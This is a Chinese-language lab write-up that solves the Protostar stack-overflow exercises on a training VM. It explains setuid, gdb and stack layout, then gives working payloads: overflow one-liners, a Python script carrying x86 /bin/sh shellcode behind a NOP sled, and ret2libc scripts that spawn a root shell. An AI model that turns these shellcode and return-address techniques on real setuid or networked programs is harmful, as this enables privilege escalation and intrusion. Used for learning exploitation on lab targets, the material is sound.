# Protostar二进制靶场栈溢出题目原理及基础解析-先知社区

> **来源**: https://xz.aliyun.com/news/16926  
> **文章ID**: 16926

---

# 简介

pwn是ctf比赛的方向之一，也是门槛最高的，学pwn前需要很多知识，这里建议先去在某宝上买一本汇编语言第四版，看完之后学一下python和c语言，python推荐看油管FreeCodeCamp的教程，c语言也是

pwn题目大部分是破解在远程服务器上运行的二进制文件，利用二进制文件中的漏洞来获得对系统的访问权限

这是一个入门pwn很好的靶场，这个靶场包括了：

```
栈溢出
格式化字符串
堆溢出
```

下载地址：

```
https://exploit.education/downloads/
```


# 实验环境部署

```
Protostar靶机下载地址：https://exploit.education/protostar/
windoows的ssh连接软件：https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html
```

下载完Protostar的镜像文件后，将其安装到vmware上，然后打开

```
账号为user，密码user
如何切换到root权限：进入user用户然后 su root 密码为godmod
```

ssh远程连接



输入IP后点击打开，输入账号密码，然后输入/bin/bash，更换为可以补全字符串的shell



在网站的Protostar靶机的介绍处，我们要破解的题目存放在这个目录下

```
/opt/protostar/bin
```

我们进入这个目录，详细查看文件

```
ls -al
```

发现文件都是红色的，我们详细的查看文件

```
flie stack0
```

这是一个32位的setuid程序

# setuid

什么是setuid？

```
setuid代表设置用户身份，并且setuid设置调用进程的有效用户ID，用户运行程序的uid与调用进程的真实uid不匹配
```

这么说起来有点绕，我们来举一个例子

```
一个要以root权限运行的程序，但我们想让普通用户也能运行它，但又要防止该程序被攻击者利用，这里就需要用的setuid了
```

演示我们用user用户运行一个vim然后新开一个窗口查看后台进程

```
ps -aux
```

这里可以看到，我们的vim正在以user的权限运行中，然后我们去执行一下靶机上的setuid文件看看



这里可以看到，我们虽然是user用户，但执行文件后，文件正以root权限运行我们查看文件的权限r代表读，w代表写，x代表执行，那s是什么呢

```
s替换了以x的可执行文件，这被称为setuid位，根据刚刚的操作，应该知道了s是做什么的
```

当这个位被user权限的用户执行时，linux实际上是以文件的创造者的权限运行的，在这种情况下，它是以root权限运行的我们的目标就是，破解这些文件然后拿到root权限

# STACK ZERO程序源代码分析



我们破解一个简单的题，通过分析汇编语言，以及相关的知识，来带大家进一步了解程序是如何运行的以及如何破解的

```
题目的源代码：https://exploit.education/protostar/stack-zero/
```

题目详情：这个级别介绍了内存可以在其分配区域之外访问的概念，堆栈变量的布局方式，以及在分配的内存之外进行修改可以修改程序执行。分析源代码，这是由c语言写成的程序，

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;          //定义一个变量
  char buffer[64];           //给buffer变量定义数组，c语言中一个字符数就是一个字符串

  modified = 0;            //modified变量=0
  gets(buffer);             //获取我们的输入，赋予到buffer变量里

  if(modified != 0) {               //如果modified不等于0
      printf("you have changed the 'modified' variable
");                //打印'成功改变modified变量'字符串
  } else {                        //否则
      printf("Try again?
");                   //打印'再试一次'
  }
}
```

很明显，我们要使if语句成功判断，打印成功改变变量的字符串，关于如何破解程序，获取root权限，我会在下一篇文章中介绍

## gets函数漏洞分析

在gets函数的官方文档里，有这么一句话永远不要使用gets函数，因为如果事先不知道数据，就无法判断gets将读取多少个字符，因为gets将继续存储字符当超过缓冲区的末端时，使用它是极其危险的，它会破坏计算机安全，请改用fgets。

## 汇编分析

我们使用gdb打开程序进行进一步的分析

```
gdb /opt/protostar/bin/stack0
```

然后我们查看程序的汇编代码，来了解程序的堆栈是如何工作的

```
set disassembly-flavor intel 参数让汇报代码美观一点
disassemble main  显示所有的汇编程序指令
```



```
0x080483f4 <main+0>:    push   ebp
0x080483f5 <main+1>:    mov    ebp,esp
0x080483f7 <main+3>:    and    esp,0xfffffff0
0x080483fa <main+6>:    sub    esp,0x60
0x080483fd <main+9>:    mov    DWORD PTR [esp+0x5c],0x0
0x08048405 <main+17>:   lea    eax,[esp+0x1c]
0x08048409 <main+21>:   mov    DWORD PTR [esp],eax
0x0804840c <main+24>:   call   0x804830c <gets@plt>
0x08048411 <main+29>:   mov    eax,DWORD PTR [esp+0x5c]
0x08048415 <main+33>:   test   eax,eax
0x08048417 <main+35>:   je     0x8048427 <main+51>
0x08048419 <main+37>:   mov    DWORD PTR [esp],0x8048500
0x08048420 <main+44>:   call   0x804832c <puts@plt>
0x08048425 <main+49>:   jmp    0x8048433 <main+63>
0x08048427 <main+51>:   mov    DWORD PTR [esp],0x8048529
0x0804842e <main+58>:   call   0x804832c <puts@plt>
0x08048433 <main+63>:   leave
0x08048434 <main+64>:   ret
End of assembler dump.
```

```
0x080483f4 <main+0>:    push   ebp
```

第一条是将ebp推入栈中，ebp是cpu的一个寄存器，它包含一个地址，指向堆栈中的某个位置，它存放着栈底的地址，在因特尔的指令参考官方资料中，可以看到，mov esp、ebp和pop ebp是函数的开始和结束<https://www.intel.de/content/dam/www/public/us/en/documents/manuals/64-ia-32-architectures-software-developer-instruction-set-reference-manual-325383.pdf>在这个程序中，最初操作是将ebp推入栈中，然后把esp的值放入ebp中，而当函数结束时执行了leave操作

```
0x08048433 <main+63>:   leave
leave:
mov esp,ebp
pop ebp
```

可以看到，程序开头和结尾的操作都是对称的之后执行了如下操作

```
0x080483f7 <main+3>:    and    esp,0xfffffff0
```

AND 指令可以清除一个操作数中的 1 个位或多个位，同时又不影响其他位。这个技术就称为位屏蔽，就像在粉刷房子时，用遮盖胶带把不用粉刷的地方（如窗户）盖起来，在这里，它隐藏了esp的地址

```
0x080483fa <main+6>:    sub    esp,0x60
```

然后esp减去十六进制的60

```
0x080483fd <main+9>:    mov    DWORD PTR [esp+0x5c],0x0
```

在内存移动的位置为0，在堆栈上的偏移为0x5c段地址+偏移地址=物理地址举一个例子，你从家到学校有2000米，这2000米就是物理地址，你从家到医院有1500米，离学校还要500米，这剩下的500米就是偏移地址这里推荐大家看一下《汇编语言》这本书，在这本书里有很多关于计算机底层的相关知识

```
0x08048405 <main+17>:   lea    eax,[esp+0x1c]
0x08048409 <main+21>:   mov    DWORD PTR [esp],eax
0x0804840c <main+24>:   call   0x804830c <gets@plt>
```

lea操作是取有效地址，也就是取esp地址+偏移地址0x1c处的堆栈然后DWORD PTR要取eax的地址到esp中调用gets函数

```
0x08048411 <main+29>:   mov    eax,DWORD PTR [esp+0x5c]
0x08048415 <main+33>:   test   eax,eax
```

然后对比之前设置的值，0，用test来检查

```
0x08048417 <main+35>:   je     0x8048427 <main+51>
0x08048419 <main+37>:   mov    DWORD PTR [esp],0x8048500
0x08048420 <main+44>:   call   0x804832c <puts@plt>
0x08048425 <main+49>:   jmp    0x8048433 <main+63>
0x08048427 <main+51>:   mov    DWORD PTR [esp],0x8048529
0x0804842e <main+58>:   call   0x804832c <puts@plt>
```

这些就是if循环的操作了

## 方法一：溢出

```
0x080483f4 <main+0>:    push   ebp
0x080483f5 <main+1>:    mov    ebp,esp
0x080483f7 <main+3>:    and    esp,0xfffffff0
0x080483fa <main+6>:    sub    esp,0x60
0x080483fd <main+9>:    mov    DWORD PTR [esp+0x5c],0x0
0x08048405 <main+17>:   lea    eax,[esp+0x1c]
0x08048409 <main+21>:   mov    DWORD PTR [esp],eax
0x0804840c <main+24>:   call   0x804830c <gets@plt>
0x08048411 <main+29>:   mov    eax,DWORD PTR [esp+0x5c]
0x08048415 <main+33>:   test   eax,eax
0x08048417 <main+35>:   je     0x8048427 <main+51>
0x08048419 <main+37>:   mov    DWORD PTR [esp],0x8048500
0x08048420 <main+44>:   call   0x804832c <puts@plt>
0x08048425 <main+49>:   jmp    0x8048433 <main+63>
0x08048427 <main+51>:   mov    DWORD PTR [esp],0x8048529
0x0804842e <main+58>:   call   0x804832c <puts@plt>
0x08048433 <main+63>:   leave
0x08048434 <main+64>:   ret
End of assembler dump.
```

我们先在gets函数地址下一个断点，这样程序在运行到这个地址时会停止继续运行下一步操作。

```
断点意思就是让程序执行到此“停住”，不再往下执行
```

```
b *0x0804840c
```

然后在调用gets函数后下一个断点，来看我们输入的字符串在哪里

```
b *0x08048411
```

然后设置

```
define hook-stop
```

这个工具可以帮助我们在每一步操作停下来后，自动的运行我们设置的命令

```
info registers   //显示寄存器里的地址
x/24wx $esp      //显示esp寄存器里的内容
x/2i $eip        //显示eip寄存器里的内容
end              //结束
```

然后我们输入run运行程序到第一个断点

```
r
```

现在我们马上就要执行gets函数了，输入n执行gets函数

```
n    //next
```

我们随意输入一些内容，按下回车键可以看到，0x41是A的ascii码，我们距离0x0000000还有一段距离

```
x/wx $esp+0x5c            //查看esp地址+0x5c偏移地址的内容
```



算了一下，我们需要68个字符才能覆盖输入q退出gdb然后使用echo或者python对程序进行输入

```
echo 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA' | /opt/protostar/bin/stack0
```

```
python -c 'print "A"*(4+16*3+14)' | /opt/protostar/bin/stack0
```



可以看到，我们已经成功打印出了正确的字符

# 什么是缓冲区溢出

当系统向缓冲区写入的数据多于它可以容纳的数据时，就会发生缓冲区溢出或缓冲区溢出，用更简单的话说就是在程序运行时，系统会为程序在内存里生成一个固定空间，如果超过了这个空间，就会造成缓冲区溢出，可以导致程序运行失败、系统宕机、重新启动等后果。更为严重的是，甚至可以取得系统特权，进而进行各种非法操作

# 什么是寄存器

寄存器是内存中非常靠近cpu的区域，因此可以快速访问它们，但是在这些寄存器里面能存储的东西非常有限

计算机寄存器是位于CPU内部的一组用于存储和处理数据的高速存储器。用于存放指令、数据和运算结果

常见的寄存器名称以及作用：

```
累加器寄存器（Accumulator Register，EAX）：用于存储操作数和运算结果，在算术和逻辑操作中经常使用。

基址指针寄存器（Base Pointer Register，EBP）：用于指向堆栈帧的基地址，通常用于函数调用和局部变量访问。

堆栈指针寄存器（Stack Pointer Register，ESP）：指向当前活动堆栈的栈顶地址，在函数调用和参数传递中经常使用。

数据寄存器（Data Register，EDX、ECX、EBX）：用于存储数据，在算术和逻辑操作中经常使用。

指令指针寄存器（Instruction Pointer Register，EIP）：存储当前要执行的指令的内存地址，用于指示下一条要执行的指令。
```

# Stack One

## 程序静态分析

```
https://exploit.education/protostar/stack-one/
```


```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument
");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value
");
  } else {
      printf("Try again, you got 0x%08x
", modified);
  }
}
```

### 源代码分析

首先程序定义了两个函数变量

```
volatile int modified;
char buffer[64];
```

整数型变量 modified 和字符型变量buffer，其中字符型变量buffer的字符存储最大为64个字节

然后程序检测了我们输入的参数

```
if(argc == 1) {
    errx(1, "please specify an argument
");
}
```

如果我们只运行程序，不输入参数就会输出please specify an argument并结束程序

之后程序定义了一个变量和进行了一个字符串复制操作

```
modified = 0;
strcpy(buffer, argv[1]);
```

modified变量为0，然后将我们输入的参数复制到buffer变量里

然后程序做了一个简单的if判断

```
if(modified == 0x61626364) {
    printf("you have correctly got the variable to the right value
");
} else {
    printf("Try again, you got 0x%08x
", modified);
```

如果modified变量等于0x61626364就输出you have correctly got the variable to the right value，代表着我们破解成功0x61626364是十六进制，转换字符串是大写的ABCD

也就是说，我们使modified变量变成ABCD就成功了，但是modified变量设置为0，这里我们就需要栈溢出覆盖变量原本设置的值

### 汇编分析

使用gdb打开程序，输入指令查看汇编代码

```
set disassembly-flavor intel
disassemble main
```



```
0x08048464 <main+0>:    push   ebp
0x08048465 <main+1>:    mov    ebp,esp
0x08048467 <main+3>:    and    esp,0xfffffff0
0x0804846a <main+6>:    sub    esp,0x60
0x0804846d <main+9>:    cmp    DWORD PTR [ebp+0x8],0x1
0x08048471 <main+13>:   jne    0x8048487 <main+35>
0x08048473 <main+15>:   mov    DWORD PTR [esp+0x4],0x80485a0
0x0804847b <main+23>:   mov    DWORD PTR [esp],0x1
0x08048482 <main+30>:   call   0x8048388 <errx@plt>
0x08048487 <main+35>:   mov    DWORD PTR [esp+0x5c],0x0
0x0804848f <main+43>:   mov    eax,DWORD PTR [ebp+0xc]
0x08048492 <main+46>:   add    eax,0x4
0x08048495 <main+49>:   mov    eax,DWORD PTR [eax]
0x08048497 <main+51>:   mov    DWORD PTR [esp+0x4],eax
0x0804849b <main+55>:   lea    eax,[esp+0x1c]
0x0804849f <main+59>:   mov    DWORD PTR [esp],eax
0x080484a2 <main+62>:   call   0x8048368 <strcpy@plt>
0x080484a7 <main+67>:   mov    eax,DWORD PTR [esp+0x5c]
0x080484ab <main+71>:   cmp    eax,0x61626364
0x080484b0 <main+76>:   jne    0x80484c0 <main+92>
0x080484b2 <main+78>:   mov    DWORD PTR [esp],0x80485bc
0x080484b9 <main+85>:   call   0x8048398 <puts@plt>
0x080484be <main+90>:   jmp    0x80484d5 <main+113>
0x080484c0 <main+92>:   mov    edx,DWORD PTR [esp+0x5c]
0x080484c4 <main+96>:   mov    eax,0x80485f3
0x080484c9 <main+101>:  mov    DWORD PTR [esp+0x4],edx
0x080484cd <main+105>:  mov    DWORD PTR [esp],eax
0x080484d0 <main+108>:  call   0x8048378 <printf@plt>
0x080484d5 <main+113>:  leave
0x080484d6 <main+114>:  ret
```

程序最关键的地方在这里

```
0x080484a7 <main+67>:   mov    eax,DWORD PTR [esp+0x5c]
0x080484ab <main+71>:   cmp    eax,0x61626364
0x080484b0 <main+76>:   jne    0x80484c0 <main+92>
```

它使用mov指令将esp+0x5c栈内地址的值移动到eax寄存器里，然后用cmp指令将eax寄存器里的值与0x61626364做对比，如果对比的值不一样就执行jne指令跳转到0x80484c0地址继续执行其他指令

## 程序动态分析

我们先在程序执行对比指令的地址下一个断点

```
b *0x080484ab
```

然后设置一下自动运行我们设置的命令

```
define hook-stop
info registers   //显示寄存器里的地址
x/24wx $esp      //显示esp寄存器里的内容
x/2i $eip        //显示eip寄存器里的内容
end              //结束
```


然后执行程序，并指定参数

```
r AAAAAAAA
```



程序执行到我们设置的断点处自动执行了我们上面设置的命令，在这里可以看到我们输入的8个大写A在栈中的位置，并且eax寄存器里的值为0

之前说过，程序将esp+0x5c地址处的值移动到了eax寄存器里，然后执行对比指令



我们查看esp+0x5c地址存放的值

```
x/wx $esp+0x5c
```



esp+0x5c地址就是栈里的0xbffff78c，每一段存放四个字符，c代表的是12



从存放我们输入的值的栈地址到esp+0x5c，中间共有64个字符，也就是说，我们需要输出64个字符+4个我们指定的字符才能覆盖modified变量



在这里还有一个知识点是在x86架构里，读取是由低到高的，要使modified变量变成0x61626364，不能直接输入abcd，而是dcba

```
 python -c "print('A'*(4*16)+'dcba')"
```



成功pwn掉了程序

# Stack Two

## 程序静态分析

```
https://exploit.education/protostar/stack-two/
```

程序源代码：

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable
");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable
");
  } else {
      printf("Try again, you got 0x%08x
", modified);
  }

}
```

这个程序代码和第一个差不多，只不过是将我们的输入变成了读取环境变量里的GREENIE变量内容

# 什么是环境变量

任何计算机编程语言的两个基本组成部分，变量和常量。就像数学方程式中的自变量一样。变量和常量都代表唯一的内存位置，其中包含程序在其计算中使用的数据。两者的区别在于，变量在执行过程中可能会发生变化，而常量不能重新赋值

这里只举几个常见的环境变量

## $PATH

包含了一些目录列表，作用是终端会在这些目录中搜索要执行的程序查看$PATH环境变量

```
echo $PATH
```



假如我要执行whoami程序，那么终端会在这个环境变量里搜索名为whoami程序

搜索的目录如下

```
/usr/local/sbin
/usr/local/bin
/usr/sbin
/usr/bin
/sbin
/bin
/usr/local/games
/usr/games
```


而whoami程序在/usr/bin目录下，终端会执行这个目录下的whoami程序


而windows的PATH环境变量在这可以看到


## $HOME

包含了当前用户的主目录

```
echo $HOME
```



## $PWD

包含了当前用户目前所在的目录位置


关于环境变量的更多信息：

```
https://en.wikipedia.org/wiki/Environment_variable
```

回到正题

```
variable = getenv("GREENIE");
strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable
");
  } else {
      printf("Try again, you got 0x%08x
", modified);
  }
```

首先获取了一个名为GREENIE的环境变量，然后将内容赋予variable变量，之后if判断modified是否等于0x0d0a0d0a，这个和第一个程序一模一样，只不过我们不是通过输入来破解程序，而是将payload放到指定的环境变量里，然后程序读取环境变量

```
export GREENIE=$(python -c "print 'A'*(4*16)+'\x0a\x0d\x0a\x0d'"); ./stack2
```

直接运行就能成功破解了



# Stack Three

## 程序静态分析

```
https://exploit.education/protostar/stack-three/
```



```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed
");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x
", fp);
      fp();
  }
}
```

### 源代码分析

这个程序首先定义了一个win函数

```
void win()
{
  printf("code flow successfully changed
");
}
```

调用这个win函数会输出code flow successfully changed，表示我们成功破解了程序

然后在mian函数内定义了一个指针变量fp和字符型变量buffer，buffer存储的字符大小为64位

```
volatile int (*fp)();
char buffer[64];
```

### 什么是指针？

在C语言中，指针是一种特殊的变量类型，它存储了一个内存地址。这个内存地址可以是其他变量或数据结构在内存中的位置

指针提供了直接访问和操作内存中数据的能力。通过指针，我们可以间接地访问、修改和传递数据，从而不需要直接对变量本身进行操作

```
fp = 0;
```

将fp的值设为0表示一个无效的指针，即它不指向任何有效的内存地址。这样做可以用来初始化指针变量，或者将指针重置为空指针

之后程序会使用gets函数接收用户的输入，并将接受到的字符串存储在buffer变量里，gets函数是一个危险的函数，他会造成缓冲区溢出，具体的解释可以看我的第一篇文章

程序接受输入后会进行一个if判断

```
gets(buffer);

if(fp) {
    printf("calling function pointer, jumping to 0x%08x
", fp);
    fp();
}
```

if(fp)检查fp是否指向了某个有效的函数。如果fp不为空（即非零），则输出calling function pointer, jumping to 0x%08x，然后执行函数指针 fp 所指向的函数

也就是说，我们需要溢出覆盖fp设置的值，将fp原本的值改为win函数的地址，之后进入if判断后，会执行win函数

### 汇编分析

使用gdb打开程序，输入指令查看汇编代码

```
set disassembly-flavor intel
disassemble main
```



程序最关键的地方是这两行



```
0x08048471 <main+57>:   mov    eax,DWORD PTR [esp+0x5c]
0x08048475 <main+61>:   call   eax
```

它将esp+0x5c地址的值转移到了eax寄存器里，然后调用call指令执行eax寄存器里的值

也就是说，我们只要将esp+0x5c地址的内容覆盖成win函数的地址，就能成功破解程序

## 程序动态分析

我们在0x08048471地址处下一个断点

```
b *0x08048471 
```

然后设置一下自动运行的命令

```
define hook-stop
info registers   //显示寄存器里的地址
x/24wx $esp      //显示esp寄存器里的内容
x/2i $eip        //显示eip寄存器里的内容
end              //结束
```



运行程序，由于if判断，fp的值不能为零才能进入if判断，但是程序设置的fp的值为0，我们先输入一长串的垃圾字符，覆盖原来的值



查看esp+0x5c地址处的值

```
x/wx $esp+0x5c
```



fp函数指针的值就在图中圈出来的地方，根据计算，我们需要64个字符+win函数地址才能控制fp函数指针

这时候我们可以用objdump工具来查看win函数地址

```
objdump -x stack3 | grep win
```



或者直接使用gdb直接查看win函数就能知道地址

```
disassemble win
```



两个方法都能用

知道了win函数地址后，直接运行以下命令就能破解程序

```
64个垃圾字符+win函数地址
python -c "print('A'*(4*16)+'\x24\x84\x04\x08')" | ./stack3
```



# Stack Four

## 程序静态分析

```
https://exploit.education/protostar/stack-four/
```



```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed
");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

这个程序很简单，就不多做介绍了，和上一个一模一样，只不过将设置的fp函数指针去掉了，我们需要自己控制程序指针进行跳转到win函数地址

直接进行程序动态分析

## 程序动态分析

使用gdb打开程序，输入指令查看汇编代码

```
set disassembly-flavor intel
disassemble main
```



代码很少，我们要做的只有一件事，控制ret指令的返回地址，让程序跳转到win函数地址执行参数

## leave和ret指令

在汇编语言中，ret指令用于从子程序返回到调用它的主程序。当执行到ret指令时，程序会跳转到主代码的地址，继续执行主程序的代码

在汇编语言中，leave指令用于清空栈，它会清除我们这次运行程序时获取的用户输入之类的，还原之前的状态

我们在leave指令的地址下一个断点

```
b *0x0804841d
```

运行程序，然后随便输入一些字符，然后查看栈里的内容，记录下来，之后会用到


然后输入n执行下一个指令，让ret指令执行，输入info registers查看寄存器的值



当前eip寄存器的值为0xb7eadc76，也就是说，执行了rat指令后，程序回到了0xb7eadc76继续执行之后的命令

但是返回的地址也是在栈中的



根据计算，我们需要输入76个字符+win函数地址才能覆盖原来ret返回的地址，让程序跳转到win函数地址处执行

```
python -c "print('A'*76+'\xf4\x83\x04\x08')" | ./stack4
```



成功破解

# Stack Five

## 程序静态分析

```
https://exploit.education/protostar/stack-five/
```



```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

这个程序很简单，只有两行，作用只是接受我们的输入

## setuid

什么是setuid？

```
setuid代表设置用户身份，并且setuid设置调用进程的有效用户ID，用户运行程序的uid与调用进程的真实uid不匹配
```

这么说起来有点绕，我们来举一个例子

```
一个要以root权限运行的程序，但我们想让普通用户也能运行它，但又要防止该程序被攻击者利用，这里就需要用的setuid了
```

演示我们用user用户运行一个vim然后新开一个窗口查看后台进程

```
ps -aux
```


## 什么是栈

可以把栈想象成一个堆积的书本，你可以把新的书本放在最顶部，也可以取出最顶部的书本。

当程序执行时，它会使用栈来跟踪函数调用和变量的值。每次你调用一个函数，计算机会在栈上创建一个新的“帧”（就像书本一样），用来存储这个函数的局部变量和执行时的一些信息。当函数执行完毕时，这个帧会被从栈上移除，就像取出一本书本一样。

栈通常是“后进先出”的，这意味着最后放入栈的数据会最先被取出。这是因为栈的操作是非常快速和高效的，所以它经常用于管理函数调用和跟踪程序执行流程

## 为什么要覆盖ret返回地址

覆盖 ret 返回地址是一种计算机攻击技巧，攻击者利用它来改变程序执行的路径。这个过程有点像将一个路标或导航指令替换成你自己的指令，以便程序执行到你想要的地方。

想象一下，你在开车时遇到一个交叉路口，路标告诉你向左拐才能到达目的地。但是，攻击者可能会悄悄地改变路标，让你误以为需要向右拐。当你按照这个伪装的路标行驶时，你最终会到达攻击者想要的地方，而不是你本来的目的地。

在计算机中，程序执行的路径通常是通过返回地址控制的，这个返回地址告诉计算机在函数执行完毕后应该继续执行哪里的代码。攻击者可以通过修改这个返回地址，迫使程序跳转到他们指定的地方，通常是一段恶意代码，而不是正常的程序代码

## 获取ret返回地址

使用gdb打开程序，在执行leave指令的地方下一个断点



运行程序，随便输入一些字符，然后查看栈状态

```
x/100wx $esp
```


另外开一个远程连接界面，使用gdb打开程序，在执行ret指令的地方下一个断点



在第二个终端界面运行程序，随便输入一些字符，然后执行ret指令，查看程序跳转的地址





根据计算，我们需要80个字符就能完全覆盖ret的返回地址，然后再将我们的shellcode放到控制数据的堆栈里



## nop指令

NOP指令是一种特殊的机器指令，它在计算机中执行时不做任何操作。简单来说，NOP指令是一种“空操作”，它不改变计算机的状态、不影响寄存器的值，也不执行任何计算或跳转

为了防止我们shellcode收到干扰，我们在shellcode代码前添加一些nop指令即可

## 脚本编写

```
import struct

padding = "A" * 76
eip = struct.pack("I",0xbffff7c0)
nopnop = "\x90"*64
payload = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x88"

print padding+eip+nopnop+payload
```

首先设置一个76位的垃圾字符，然后利用struct模块的pack功能，作用是将一个无符号整数（I 表示无符号整数）转换为二进制数据，跳转到控制数据的栈里，最后写入nop指令和shellcode代码，shellcode代码可以在这个网站里找到

```
http://shell-storm.org/shellcode/files/shellcode-811.html
```



这是一个linux x86架构执行/bin/sh的shellcode

如果我们直接运行脚本是得不到/bin/sh的



其实/bin/sh已经执行了，只是没有输入，我们可以用cat命令来重定向到标准输入输出



```
 (python stack5exp.py ; cat) | /opt/protostar/bin/stack5
```



成功破解程序

# Stack Six and Stack Seven

Stack Six和Stack Seven的源代码是一样的，可以通过ret to libc的方式获取shell

## 程序静态分析



```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()   //定义一个名为getpath的函数
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);  //输出字符串input path please: 

  gets(buffer);  //获取用户输入，将输入存储到buffer函数变量里

  ret = __builtin_return_address(0);   //获取ret返回的内存地址

  if((ret & 0xbf000000) == 0xbf000000) {   //如果内存地址的前两位是0xbf
    printf("bzzzt (%p)
", ret);  //输出bzzzt
    _exit(1);
  }

  printf("got path %s
", buffer);  //输出got path
}

int main(int argc, char **argv)  //主函数
{
  getpath();  //调用getpath函数
}
```

## ret to libc

ret to libc是将程序的返回地址覆盖为标准 C 库中的某个函数的地址，如 "system" 函数，这个函数可以用来执行系统命令。然后，攻击者构造一个有效的参数，比如"/bin/sh"，将其传递给 "system" 函数，从而获取shell

## 寻找system函数地址和/bin/sh字符串

用gdb打开程序，在getpath函数执行leave指令的地址打一个断点

```
disassemble getpath
b *0x080484f8
```



运行程序后随意输入一些字符串，让后寻找system函数的地址

```
r
p system
```



system函数地址为：0xb7ecffb0，找到了system函数地址，现在我们就要找让system函数执行命令的字符串，为了获取shell，我们寻找"/bin/sh"字符串

### 什么是内存映射

内存映射是一种操作系统和计算机体系结构中常见的技术，用于将文件或其他设备的内容映射到进程的地址空间，使得进程可以像访问内存一样访问这些内容

### 什么是libc库

在编译程序时，我们要调用函数，为了缩小程序大小，我们通常会动态编译文件，程序调用函数时，就会到指定的libc库里查找并执行

执行i proc mappings查看程序内存映射



stack6的libc库为：/lib/libc-2.11.2.so，libc的基地址为：0xb7e97000

现在新开一个终端，在libc库里查找/bin/sh字符串的地址

```
strings -t d /lib/libc-2.11.2.so | grep "/bin/sh"
```



字符串/bin/sh的偏移地址为：1176511，libc的基地址+字符串的偏移地址=程序调用字符串的完整地址

## 寻找程序溢出大小

查看main函数代码

```
disassemble main
```



程序调用了getpath函数后，会返回0x08048505继续执行下一个指令，重新运行程序，随便输入一些字符，然后查看栈状态



我们输入的字符串离0x08048505有80个字节，在0x08048505上面还有一个0x08048505，那个只是普通的值，在程序返回main函数时，还会调用其他的系统函数，所以下一个才是getpath函数ret main函数的值

现在我们可以写一个脚本来破解程序

```
import struct

buffer = "A"*80   //覆盖到ret地址的函数

system = struct.pack("I",0xb7ecffb0)  //system地址
ret = "AAAA"  //在执行system函数时，会调用一个返回地址，这里随意输入一些字符，下图解释

shellcode = struct.pack("I",0xb7e97000+1176511)  ///bin/sh字符串地址

payload = buffer +system+ ret + shellcode
print payload
```

在执行system函数时，会调用一个返回地址，可以随意输入一些字符，然后就会执行"/bin/sh"字符串



执行程序，成功获得root权限



# Stack Seven

Stack Seven和Stack Six的程序源代码很像，只是修改了一下判断的值



```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()   //定义一个名为getpath的函数
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);  //输出字符串input path please: 

  gets(buffer);  //获取用户输入，将输入存储到buffer函数变量里

  ret = __builtin_return_address(0);   //获取ret返回的内存地址

  if((ret & 0xb0000000) == 0xb0000000) {   //如果内存地址的前一位是0xb
    printf("bzzzt (%p)
", ret);  //输出bzzzt
    _exit(1);
  }

  printf("got path %s
", buffer);  //输出got path
}

int main(int argc, char **argv)  //主函数
{
  getpath();  //调用getpath函数
}
```

我们只需要多加一个ret指令的地址，让程序返回到我们指定的地方执行system函数和/bin/sh字符串

## 寻找ret地址

我们可以使用objdump工具来寻找ret指令的地址

```
objdump -D stack7 | grep ret
```



这里有很多ret指令的地址，我们随便选一个即可开始写脚本

脚本和stack six一样，只需要添加一个ret指令地址即可

```
import struct

buffer = "A"*80

ret_addr = struct.pack("I", 0x8048383)
system = struct.pack("I",0xb7ecffb0)
ret = "AAAA"

shellcode = struct.pack("I",0xb7e97000+1176511)

payload = buffer + ret_addr +system+ ret + shellcode
print payload
```



成功获得root权限
